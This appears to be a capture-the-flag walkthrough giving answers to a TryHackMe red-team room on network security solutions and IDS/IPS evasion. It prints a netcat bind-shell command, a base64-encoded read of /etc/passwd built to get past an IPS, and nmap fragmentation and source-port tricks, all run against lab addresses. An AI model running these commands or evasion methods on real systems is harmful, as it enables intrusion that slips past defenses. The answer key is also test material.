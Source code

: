 ```yaml
---
description: https://tryhackme.com/room/redteamnetsec
---
```


# Network Security Solutions

## Task 1 Introduction

#### What does an IPS stand for?

{% hint style="success" %}
`Intrusion Prevention System`
{% endhint %}

#### What do you call a system that can detect malicious activity but not stop it?

{% hint style="success" %}
`Intrusion Detection System`
{% endhint %}

## Task 2 IDS Engine Types

#### What kind of IDS engine has a database of all known malicious packets’ contents?

{% hint style="success" %}
`Signature-based`
{% endhint %}

#### What kind of IDS engine needs to learn what normal traffic looks like instead of malicious traffic?

{% hint style="success" %}
`Anomaly-based`
{% endhint %}

#### What kind of IDS engine needs to be updated constantly as new malicious packets and activities are discovered?

{% hint style="success" %}
`Signature-based`
{% endhint %}

## Task 3 IDS/IPS Rule Triggering

#### In the attached file, the logs show that a specific IP address has been detected scanning our system of IP address `10.10.112.168`. What is the IP address running the port scan?

```bash
tar xzvf 1010112168.tar.gz
grep -r '10.10.112.168' 10.10.112.168
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 20-48-40.png>)

{% hint style="success" %}
`10.14.17.226`
{% endhint %}



## Task 4 Evasion via Protocol Manipulation

#### We use the following Nmap command, `nmap -sU -F 10.10.152.8`, to launch a UDP scan against our target. What is the option we need to add to set the source port to 161?

{% hint style="success" %}
`-g 161`
{% endhint %}

#### The target allows Telnet traffic. Using `ncat`, how do we set a listener on the Telnet port?

{% hint style="success" %}
`ncat -lvnp 23`
{% endhint %}

#### We are scanning our target using `nmap -sS -F 10.10.152.8`. We want to fragment the IP packets used in our Nmap scan so that the data size does not exceed 16 bytes. What is the option that we need to add?

{% hint style="success" %}
`-ff`
{% endhint %}

#### Consider the following three types of Nmap scans:

* `-sX` for Xmas Scan
* `-sF` for FIN Scan
* `-sN`for Null Scan

#### Which of the above three arguments would return meaningful results when scanning `10.10.152.8`?

```bash
sudo nmap -n -sF 10.10.152.8
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 21-23-22.png>)

{% hint style="success" %}
`-sF`
{% endhint %}

#### What is the option in `hping3` to set a custom TCP window size?

```bash
hping3 -h | grep win
```

![](<../../.gitbook/assets/Screenshot from 2022-03-16 21-21-18.png>)

{% hint style="success" %}
`-w`
{% endhint %}

## Task 5 Evasion via Payload Manipulation

#### Using `base64` encoding, what is the transformation of `cat /etc/passwd`?

```bash
echo 'cat /etc/passwd' | base64                          
```

![](<../../.gitbook/assets/Screenshot from 2022-03-17 06-48-07.png>)

{% hint style="success" %}
`Y2F0IC9ldGMvcGFzc3dkCg==`
{% endhint %}

#### The `base32` encoding of a particular string is `NZRWC5BAFVWCAOBQHAYAU===`. What is the original string?

```bash
echo 'NZRWC5BAFVWCAOBQHAYAU===' | base32 -d
```

![](<../../.gitbook/assets/Screenshot from 2022-03-17 06-49-57.png>)

{% hint style="success" %}
`ncat -l 8080`
{% endhint %}

#### Using the provided `openssl` command above. You created a certificate, which we gave the extension `.crt`, and a private key, which we gave the extension `.key`. What is the first line in the certificate file?

```bash
openssl req -x509 -newkey rsa:4096 -days 365 \
            -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes \
            -keyout thm-reverse.key -out thm-reverse.crt
head -n1 thm-reverse.crt
tail -n1 thm-reverse.key
```

![](<../../.gitbook/assets/Screenshot from 2022-03-17 06-52-05.png>)

{% hint style="success" %}
`-----BEGIN CERTIFICATE-----`
{% endhint %}

#### What is the last line in the private key file?

{% hint style="success" %}
`-----END PRIVATE KEY-----`
{% endhint %}

#### On the attached machine from the previous task, browse to `http://10.10.106.14:8080`, where you can write your Linux commands. Note that no output will be returned. A command like `ncat -lvnp 1234 -e /bin/bash` will create a bind shell that you can connect to it from the AttackBox using `ncat 10.10.106.14 1234`; however, some IPS is filtering out the command we are submitting on the form. Using one of the techniques mentioned in this task, try to adapt the command typed in the form to run properly. Once you connect to the bind shell using `ncat 10.10.106.14 1234`, find the user’s name.

![](<../../.gitbook/assets/Screenshot from 2022-03-17 07-02-31.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-17 07-02-42.png>)

{% hint style="success" %}
`redteamnetsec`
{% endhint %}

## Task 6 Evasion via Route Manipulation

#### Protocols used in proxy servers can be HTTP, HTTPS, SOCKS4, and SOCKS5. Which protocols are currently supported by Nmap?

{% hint style="success" %}
`HTTP SOCKS4`
{% endhint %}

## Task 8 C2 and IDS/IPS Evasion

#### Which variable would you modify to add a random sleep time between beacon check-ins?

{% hint style="success" %}
`Jitter`
{% endhint %}
